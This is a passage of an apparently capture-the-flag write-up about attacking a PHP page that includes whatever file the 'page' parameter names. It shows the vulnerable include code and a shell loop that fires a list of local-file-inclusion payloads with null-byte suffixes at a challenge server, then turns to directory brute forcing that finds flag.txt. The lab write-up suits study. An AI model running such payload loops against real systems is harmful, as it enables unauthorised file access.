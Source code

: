 ```console
        <h2>Welcome to my website!</h2>
        <p>Some content goes here! Let's go with the classic "lorem ipsum."</p>

        <p>
                Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
        </p>
        <p>
                Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.
        </p>
</div>

<?php include("includes/footer.php");?>

</body>
</html>
```
So it seems we cann't get flag from here, Because it is appending anything you request with .php
```bash
<?php
        $page = $_GET["page"];
        include($page.'.php');
?>
```
let modify our past exploit 

```console
┌──(sup3rm4n㉿digitalwarriors)-[~/…/assets/img/urchin/route2]
└─$ for i in $(cat /usr/share/seclists/Payloads/chaina/lfi/LFI_payloads.txt);do curl http://178.128.46.171:9006/?page=$i%00;done 
```
BUt still nothing worked...


3.Directory bruteforcing

using dirsearch to brute force directory found flag.txt file

<figure>